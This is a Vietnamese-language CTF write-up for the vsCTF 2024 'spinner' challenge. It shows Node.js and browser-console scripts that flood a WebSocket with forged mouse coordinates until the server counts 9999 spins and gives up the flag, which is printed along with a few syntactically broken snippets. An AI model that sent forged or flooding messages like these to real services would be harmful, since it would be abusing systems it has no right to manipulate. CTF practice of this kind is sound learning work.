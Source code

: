 # spinner 

![image](https://github.com/LDV-SpaceK/vsCTF2024/assets/152776722/76bb3d62-ab49-45c8-9954-46a5025394e5)



![image](https://github.com/LDV-SpaceK/vsCTF2024/assets/152776722/10cfecd1-a522-45d1-8655-49a2e464c58e)


goal: bài này là phải quay 9999 vòng th sẽ hiện ra thông báo data.message 

=> sau 1 lần check code thì bài này ta cần phải config giá trị của spinner qua websocket  


=> websocket là một công nghệ cho phép thiết lập kết nối liên tục và hai chiều (full-duplex) giữa một máy khách (client) và một máy chủ (server) qua một giao thức truyền tải duy nhất. Nó cho phép các ứng dụng web gửi và nhận dữ liệu một cách hiệu quả và thời gian thực

![image](https://github.com/LDV-SpaceK/vsCTF2024/assets/152776722/f5083f85-c659-42e9-8ecc-64cc7299e2fb)


- sau khi checking trên brupsuite ws history thì ta thấy được 1 chuỗi tọa độ được gửi nhiều lần lên server và được trả về trên client 1 giá trị spin : ?


- có 1 số thông tin về tọa độ đó là client X, Y có vẻ cố định và chỉ thay đổi khi mình tạo 1 request khác trong web nhưng X,Y thì thay đổi nên ta có thể tạo ra payload với ý tưởng như thế


payload_original:

```
const WebSocket = require('ws');

const ws = new WebSocket('wss://spinner.vsc/ws');

ws.on('open', () => {
    console.log('WebSocket connected');

    // Hàm để tính toán và gửi dữ liệu chuột
    function sendMouseData() {
        const centerX = window.innerWidth / 2;
        const centerY = window.innerHeight / 2;

        // Gửi dữ liệu chuột mỗi lần gọi hàm này
        document.addEventListener('mousemove', (event) => {
            const { clientX, clientY } = event;

            const message = {
                x: clientX,
                y: clientY,
                centerX: centerX,
                centerY: centerY
            };

            ws.send(JSON.stringify(message));
        });
    }

    // Lắng nghe tin nhắn từ máy chủ
    ws.on('message', (data) => {
        const message = JSON.parse(data);
        console.log('Received message:', message);

        // Kiểm tra nếu số vòng quay đã đạt 9999, in ra flag và đóng kết nối
        if (message.spins >= 9999) {
            console.log('Flag:', message.message);
            ws.close();
        }
    });

    // Gọi hàm gửi dữ liệu chuột
    sendMouseData();
});

ws.on('close', () => {
    console.log('WebSocket connection closed');
});

ws.on('error', (error) => {
    console.error('WebSocket error:', error.message);
});


payload gốc  để hình dung ra quy luật 
```

=> payload trên ta đang gửi nhiều tọa độ lên server sao cho gửi giá trị X, Y thì server trả về 1 giá tri spin tăng dần lên 9999 

payload: node.js => flag

```
const WebSocket = require('ws');

const ws = new WebSocket('wss://spinner.vsc.tf/ws');

ws.on('open', () => {
    console.log('WebSocket connected');

    let intervalId;

    // Function to send mouse data
    function sendMouseData() {
        const centerX = 1536 / 2;
        const centerY = 412 / 2;

        intervalId = setInterval(() => {
            const x = Math.floor(Math.random() * 1536); // Random x coordinate
            const y = Math.floor(Math.random() * 412); // Random y coordinate

            const message = {
                x: x,
                y: y,
                centerX: centerX,
                centerY: centerY
            };

            ws.send(JSON.stringify(message));
        }, 1); // Send data every 1ms
    }

    // Listen for messages from the server
    ws.on('message', (data) => {
        const message = JSON.parse(data);
        console.log('Received message:', message);

        // Check if spins reached 9999, print flag and close connection
        if (message.spins >= 9999) {
            console.log('Flag:', message.message);
            clearInterval(intervalId); // Stop sending data
            ws.close();
        }
    });

    // Call the function to send mouse data
    sendMouseData();
});

ws.on('close', () => {
    console.log('WebSocket connection closed');
});

ws.on('error', (error) => {
    console.error('WebSocket error:', error.message);
});

```

=> thêm đoạn code có thể chạy trên console 

```
function spin(r){
    socket.send(JSON.stringify({centerX: 0,CenterY: 0 ,x: -r , y: -r })
    socket.send(JSON.stringify({centerX: 0,CenterY: 0 ,x: r , y: -r })
    socket.send(JSON.stringify({centerX: 0,CenterY: 0 ,x: r , y: r })
    socket.send(JSON.stringify({centerX: 0,CenterY: 0 ,x: -r , y: r })
}
let i = 0.001;
setInterval(() => {
    for (let z = 0; z < 1000;z++ ) spin(++i);}, 1);

```

![image](https://github.com/LDV-SpaceK/vsCTF2024/assets/152776722/c7c34ea8-5d87-41a8-9096-1d319f4ab6d1)




=>flag: vsctf{i_ran_out_of_flag_ideas_so_have_this_random_string_2CSJzbfeWqVBnwU5q8}

